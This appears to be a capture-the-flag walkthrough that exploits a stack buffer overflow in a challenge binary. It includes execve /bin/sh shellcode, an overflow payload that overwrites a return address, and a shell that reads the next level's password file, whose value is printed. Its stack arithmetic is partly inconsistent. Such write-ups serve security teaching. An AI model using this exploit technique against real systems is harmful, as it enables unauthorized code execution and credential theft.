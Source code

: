 # Bonus 2

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a significant difference as mentioned in the comments of the source code. I assume this is due to optimization. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

int language = 0;

void greetuser(char *str)
{
    char buf[64];

    switch (language)
    {
    case 0:
        strcpy(buf, "Hello ");
        break;

    case 1:
        strcpy(buf, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buf, "Goedemiddag! ");
        break;
    }

    strcat(buf, str);
    puts(buf);
}

// one line difference main+31 (extra use of eax) and what appears to be a memcpy
int main(int argc, char **argv)
{
    char buf[76];
    char *ret;
    char truc[64];

    if (argc != 3)
        return 1;

    memset(buf, 0, 76);
    strncpy(buf, argv[1], 40);
    strncpy(buf + 40, argv[2], 32);

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    /* memcpy(esp, buf, 76); This happens in the assembly, I assume because of an optimization */
    greetuser(buf);
}
```

Let's focus on the `main` function. It reads input from the command line and then `strncpy` copies it to the `buf` buffer. It copies 40 bytes from the first argument and 32 bytes from the second argument. Because of the `memset` function, the `buf` buffer is null terminated.

However, the `greetuser` function is called and will concatenate the `buf` buffer with a string depending on the `language` variable. The `language` variable is set depending on the `LANG` environment variable. This will allow us to overflow the buffer and overwrite the return address of the `greetuser` function.

Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *greetuser+163 # Breaking before leave
Breakpoint 1 at 0x8048527

(gdb) r 4 2 # Run the program
Starting program: /home/user/bonus2/bonus2 4 2
Goedemiddag! päivää 4 # I had LANG=nl in this scenario

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff620       0xbffff620
ebp            0xbffff678       0xbffff678
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff678 - 0xbffff620 = 58 (88 in decimal)
```

Furthermore, we can see that our buffer is located at `-0x48(%ebp),%eax`. Since our buffer is located at `ebp - 72`, we only have to write 72 bytes before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

We can write a total of 72 bytes from the `main` function, and if our `LANG` environment variable isn't set to `nl` or `fi`, we can write 6 more bytes from the `greetuser` function. So a total of 78 bytes. Enough to overflow the buffer but not enough to write an address (we're missing 2 bytes for our address). So we'll have to set our `LANG` environment variable to `nl` or `fi`:
```bash
bonus2@RainFall:~$ export LANG=nl
```

I'll use `nl`, which will allows us to write 13 bytes from the `greetuser` function. So a total of 85 bytes. Enough to overflow the buffer and write an address.

Since we need 76 bytes to reach the return address our padding will be:
```
40 bytes from the first argument + 23 bytes from the second argument + 13 bytes from the greetuser function = 76 bytes
```

Although a ret2libc is possible, we'll use a ret2shellcode for this challenge. The ret2libc isn't straightforward in this exercise and I don't want to spend too much time on it.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus2@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus2@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 40 bytes
arg2 = padding of 23 bytes + address of the shellcode in the env

arg1 = "\x90" * 40
arg2 = "\x90" * 23 + "\xbf\xff\xf8\x48"
```

Let's run it:
```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print "\x90"*40'` `python -c 'print "\x90"*23 + "\xbf\xff\xf8\x48"[::-1]'`
Goedemiddag! ���������������������������������������������������������������H���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

We are now bonus3! Let's move on to the next level.
